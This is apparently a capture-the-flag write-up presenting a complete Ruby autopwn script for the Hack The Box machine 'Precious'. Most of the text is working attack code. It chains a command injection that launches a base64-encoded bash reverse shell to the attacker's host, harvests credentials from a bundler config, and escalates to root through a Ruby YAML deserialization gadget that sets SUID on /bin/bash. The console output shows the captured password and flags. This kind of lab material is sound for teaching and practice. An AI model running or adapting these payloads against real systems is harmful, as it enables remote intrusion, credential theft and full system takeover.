 # Hack The Box. Machines. Precious

Machine write-up: https://7rocky.github.io/en/htb/precious

### `autopwn.rb`

This script is used to automate all the exploitation process from scratch until having access as `root`.

The first steps are setting up an HTTP server and making a request to the machine with a command injection payload. After that, we need to listen to receive a reverse shell connection. These tasks are run simultaneously using threads:

```ruby
Thread.new { http_server }.run
Thread.new { command_injection }.run

puts '[*] Listening on port 4444'
listener = TCPServer.open 4444

shell = listener.accept
puts '[+] Got connection'
```

The function `http_server` just runs a web server and returns a dummy HTTP response:

```ruby
def http_server
  server = TCPServer.open(80)
  client = server.accept
  client.puts "HTTP/1.1 200 OK\r\nContent-Type: text/html;charset=utf-8\r\n\r\nOK"
  client.close
  server.close
end
```

And `command_injection` runs the reverse shell command abusing [CVE-2022-2576](https://www.cve.org/CVERecord?id=CVE-2022-25765) (more information in the [write-up](https://7rocky.github.io/en/htb/precious)):

```ruby
def command_injection
  puts '[*] Sending reverse shell payload'
  rev_shell = Base64.strict_encode64("bash  -i >& /dev/tcp/#{LHOST}/4444 0>&1")
  url = "http://10.10.17.44/?name=\#{'%20`echo #{rev_shell} | base64 -d | bash`"
  data = "url=#{URI.encode_www_form_component(url)}"

  begin
    Net::HTTP.post(URI('http://10.10.11.189'), data, { Host: 'precious.htb' })
  rescue StandardError
    nil
  end
end
```

We use a `begin ... rescue` to avoid timeout errors.

Once we have a reverse shell connection, I created some helper functions (`pwntools` style) to interact with the socket connection:

```ruby
def recv(socket)
  data = ''

  loop do
    Timeout.timeout(0.1) { data += socket.recv(1)[0] }
  rescue StandardError
    break
  end

  data
end

def recvuntil(socket, pattern)
  data = ''

  loop do
    data += socket.recv(1)[0]
    break if data.end_with?(pattern)
  end

  data
end

def recvline(socket)
  recvuntil(socket, "\n")
end

def sendline(socket, data)
  socket.puts data
end

def sendlineafter(socket, pattern, data)
  recvuntil(socket, pattern)
  socket.puts data
end

def interactive(shell)
  loop do
    print recv(shell)
    sendline(shell, $stdin.gets)
    recvline(shell)
  end
end
```

Using the above functions, we can send/receive data to/from the socket connection. First of all, let's create a pseudo-TTY as usual:

```ruby
sendlineafter(shell, '$ ', 'script /dev/null -c bash')
sendlineafter(shell, '$ ', 'export TERM=xterm')
```

At this point, we can follow the steps in the [write-up](https://7rocky.github.io/en/htb/precious) to move to user `henry` and escalate to `root`:

```ruby
sendlineafter(shell, '$ ', 'cat ~/.bundle/config')
recvuntil(shell, 'BUNDLE_HTTPS://RUBYGEMS__ORG/: ')
creds = recvline(shell)
puts "[+] Found credentials: #{creds}"

username, password = creds.gsub('"', '').split(':')
sendlineafter(shell, '$ ', "su #{username}")
sendlineafter(shell, 'Password: ', password)

yaml_payload = <<~YAML
  ---
  - !ruby/object:Gem::Installer
    i: x
  - !ruby/object:Gem::SpecFetcher
    i: y
  - !ruby/object:Gem::Requirement
    requirements:
      !ruby/object:Gem::Package::TarReader
      io: &1 !ruby/object:Net::BufferedIO
        io: &1 !ruby/object:Gem::Package::TarReader::Entry
          read: 0
          header: "abc"
        debug_output: &1 !ruby/object:Net::WriteAdapter
          socket: &1 !ruby/object:Gem::RequestSet
            sets: !ruby/object:Net::WriteAdapter
              socket: !ruby/module 'Kernel'
              method_id: :system
            git_set: chmod 4755 /bin/bash
          method_id: :resolve
YAML

b64_yaml_payload = Base64.strict_encode64(yaml_payload)

sendlineafter(shell, '$ ', 'cd /tmp')
sendlineafter(shell, '$ ', "echo #{b64_yaml_payload} | base64 -d > dependencies.yml")
sendlineafter(shell, '$ ', 'sudo ruby /opt/update_dependencies.rb')
sendlineafter(shell, '$ ', 'bash -p')

print recvuntil(shell, '#').split.last
interactive(shell)

shell.close
listener.close
```

If we run the script, we will get an interactive shell as `root` on the machine:

```console
$ ruby autopwn.rb 10.10.17.44
[*] Listening on port 4444
[*] Sending reverse shell payload
[+] Got connection
[+] Found credentials: "henry:Q3c1AqGHtoI0aXAYFH"
bash-5.1# whoami
root
bash-5.1# cat /home/henry/user.txt
325c6a80e4b91734fe975fada382d526
bash-5.1# cat /root/root.txt
c6c51a49833192ad6abad4278fdb3b40
```
